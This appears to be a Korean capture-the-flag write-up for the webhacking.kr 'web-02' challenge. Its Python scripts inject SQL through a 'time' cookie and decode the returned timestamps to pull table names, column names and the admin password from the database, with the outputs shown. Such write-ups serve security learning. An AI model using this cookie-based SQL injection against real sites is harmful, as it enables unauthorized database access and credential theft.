




# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**


# **Write-Up**

소스를 확인하면 시간 정보와 admin.php라는 단서를 얻을 수 있다.

```html
<!--
2021-10-12 07:59:33
-->
<h2>Restricted area</h2>Hello stranger. Your IP is logging...<!-- if you access admin.php i will kick your ass -->
```

admin.php로 가보면 password를 입력하라고 나온다.



Cookie를 확인하면 time값이 들어가 있다.



time값을 조작하여 새로고침하면 SQLi가 통한다.



테이블 명을 알아내자.

```python
import urllib.request
import datetime

url     = 'https://webhacking.kr/challenge/web-02/'

for i in range(60, 100):
    table   = ''
    for j in range(1, 50):
        query   = '(select ord(substr((select table_name from information_schema.tables limit {0},1),{1},1)))'.format(i, j)
        request = urllib.request.Request(url)
        request.add_header('Cookie','time='+query)
        try:
            response        = urllib.request.urlopen(request)
            original_text   = response.read().decode().split('\n')[1]
            if '2070-01-01 09:00:00' in original_text:
                if table != '' : print('[{}] {}'.format(i, table))
                break
            date_time       = datetime.datetime.strptime(original_text, "%Y-%m-%d %H:%M:%S")
            a_timedelta     = date_time - datetime.datetime(2070, 1, 1, 9, 0, 0) # subtract
            seconds         = int(a_timedelta.total_seconds()) # to seconds
            table += chr(seconds) # to ascii
        except urllib.error.HTTPError as e:
            print(e.code)
            print(e.read())
        except urllib.error.URLError as e:
            print(e.reason)

[Output]
[60] INNODB_SYS_TABLESTATS
[61] admin_area_pw
[62] log
```

컬럼 명을 알아내자.

```python
... 생략 ...
for i in range(600, 700):
... 생략 ...
        query   = '(select ord(substr((select column_name from information_schema.columns limit {0},1),{1},1)))'.format(i, j)
... 생략 ...

[Output]
[600] NUM_ROWS
[601] CLUST_INDEX_SIZE
[602] OTHER_INDEX_SIZE
[603] MODIFIED_COUNTER
[604] AUTOINC
[605] REF_COUNT
[606] pw
[607] ip
[608] time
```

데이터를 알아내자.

```python
... 생략 ...
for i in range(0, 10):
... 생략 ...
        query   = '(select ord(substr((select pw from admin_area_pw limit {0},1),{1},1)))'.format(i, j)
... 생략 ...

[Output]
[0] kudos_to_beistlab
```

admin.php에 데이터를 입력하여 점수를 획득하자.

